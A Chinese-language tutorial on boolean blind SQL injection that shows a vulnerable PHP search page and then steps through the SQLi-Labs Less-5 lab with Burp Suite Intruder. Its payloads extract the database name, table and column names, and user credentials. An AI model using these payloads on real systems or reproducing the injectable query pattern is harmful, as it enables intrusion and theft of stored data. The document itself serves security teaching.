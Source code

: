# 一、布尔盲注概述
1. 布尔盲注是一种利用布尔逻辑（即真和假）进行漏洞攻击的技术，通常用于攻击基于关系数据库的应用程序。在布尔盲注攻击中，攻击者将针对应用程序的输入发送到后端数据库，并观察应用程序的响应。通过分析应用程序的响应，攻击者可以确定某些条件是否为真或为假，从而推断出数据库中的数据。攻击者可以通过反复使用这种技术来获取更多的数据，最终可能导致对应用程序的完全控制。
2. 与普通的SQL注入攻击不同，布尔盲注攻击不直接从应用程序的响应中获取数据库中的数据，而是根据应用程序响应中的某些特定信息来推断出该数据。这种攻击技术通常比较难以执行，因为攻击者需要通过尝试各种条件和参数来获取信息，同时还需要足够的耐心和技术能力。
# 二、布尔盲注代码示例

1. 假设有一个名为"search.php"的搜索页面，可以根据输入的关键字从数据库中查找相关的信息并显示在页面上。以下是示例代码：
```php
<?php     
  $keyword = $_GET["keyword"];
  $sql = "SELECT * FROM products WHERE name LIKE '%$keyword%'";
  $result = mysqli_query($conn, $sql);
  while($row = mysqli_fetch_array($result)) {
    echo $row["name"]. "<br>";     
  } 
?>
```

2. 在这个示例中，$keyword变量是从URL参数中获取的，并用于构建SQL查询语句。如果攻击者在$keyword参数中输入恶意代码，就可能导致布尔盲注漏洞。例如，如果攻击者将以下代码作为参数值发送到搜索页面，就可能利用布尔盲注漏洞进行攻击：
```
' OR 1=1 -- -
```

3. 这段代码的作用是将SQL查询语句变为：
```sql
SELECT * FROM products WHERE name LIKE '%' OR 1=1 -- '%'
```

4. 在这个查询中，OR 1=1条件永远为真，因此将返回所有产品的数据，而不仅仅是与搜索关键字匹配的产品。攻击者可以反复使用类似的代码来获取更多的数据，并最终可能导致对应用程序的完全控制。
5. 要解决这个问题，可以使用预处理语句或其他安全的数据库查询方法来构建SQL查询语句，以防止这种类型的攻击。
# 三、布尔盲注案例——SQLi-Labs less5

1. 先测试注入点类型，发现页面回显没有报错信息，明显是盲注
![1.png](img/SQLi/bool/1.png)
2.  测试盲注类型，单引号测试发现页面回显不一样，符合布尔注入特征 
```sql
?id=1' and 1=1 --+
?id=1' and 1=2 --+
```
![2.png](img/SQLi/bool/2.png)

![3.png](img/SQLi/bool/3.png)

3.  获取数据库字段数 
```sql
?id=1' order by 4 --+
?id=1' order by 3 --+
```
![4.png](img/SQLi/bool/4.png)

![5.png](img/SQLi/bool/5.png)

4.  接下来需要配合抓包工具BurpSuite进行注入，抓包看一下正常状态和错误状态下的返回数据包有什么明显不同
![6.png](img/SQLi/bool/6.png)

![7.png](img/SQLi/bool/7.png)
5.  如上图，可以看到正常状态下返回数据包长度为704，错误状态下返回长度为720，接下来获取数据库名的长度，修改POC如下，然后发送到Intruder模块，将length(database())的值设置为变量，类型为简单列表，值为0-9 
```sql
?id=1'+and+length(database())=8+--+
```
![8.png](img/SQLi/bool/8.png)

![9.png](img/SQLi/bool/9.png)

6.  点击start attack，完成后查看结果，发现数值8的长度为916，其他数值长度都是932，点击查看该数值返回数据包，发现长度为704，与上面分析的一致，那么数据库的长度就是8了
![10.png](img/SQLi/bool/10.png)
7.  获取数据库名，修改POC如下，设置变量2为0-9的简单列表，变量e为取值范围为a-z、0-9、_的简单列表，然后点击start attack 
```sql
?id=1' and if(substring(database(),2,1)='e',1,0) --+
#substring(database(),2,1) 从database()的值也就是数据库名中第二个字符开始截取且只截取一个字符
#if(substring(database(),2,1)='e',1,0) 如果数据库名的第二个字符的值为e，则返回1，否则返回0
```
![11.png](img/SQLi/bool/11.png)

![12.png](img/SQLi/bool/12.png)

![13.png](img/SQLi/bool/13.png)

8.  攻击完成后，点击Length进行排序，如下，Payload1从1-8的字符的Length为916，其返回数据包的长度为704，也就是说这些都是正确的值，则Payload1从1-8的字符的值合到一起的字符串就是数据库名，即数据库名为security
![14.png](img/SQLi/bool/14.png)
9.  接下来获取数据库security中的表的表名，POC如下，抓包重放到Intruder模块 
```sql
1'and if(substring((select TABLE_NAME from information_schema.TABLES where
TABLE_SCHEMA=database() limit 1,1),1,1)='e',1,0)--+
#设置变量如下 
#limit 1,1  第一个1设置为变量，表示从第一个表的第一行开始遍历，取值范围为0-9
#substring((...),1,1)  第一个1设置为变量，表示从第一个字符开始截取字符串，每次截取一个字符，取值范围为0-9
#if(substring()='e',1,0) substring()的值设置为变量，表示每次遍历每一个表名的一个字符取值是否正确，正确返回1，否则返回0
```
![15.png](img/SQLi/bool/15.png)

10.  设置好变量和Payload后，点击Start attack，攻击完成后先进行排序，如下
![16.png](img/SQLi/bool/16.png)
11.  根据Payload1和Length即可判断security库中的每一个正确的表的表名，security中的表名如下 
```sql
emails
referer
uagents
users
```
 

12.  获取users表的字段，修改POC如下 
```sql
1'and if(substring((select COLUMN_NAME from information_schema.COLUMNS where
TABLE_NAME='users' limit 1,1),1,1)='i',1,0)--+
```
![17.png](img/SQLi/bool/17.png)

13.  点击Start attack，攻击完成后排序如下图，成功获取到users表的字段 
```sql
id
username
password
```
![18.png](img/SQLi/bool/18.png)

14.  获取users表中username和password字段的内容，修改POC如下 
```sql
1'and if(substring((select group_concat(username,0x3a,password) from users limit 1),1,1)='d',1,0)--+
```
![19.png](img/SQLi/bool/19.png)

15.  点击Start attack，攻击完成后排序，然后导出数据，即可获取到表中的数据
![20.png](img/SQLi/bool/20.png)
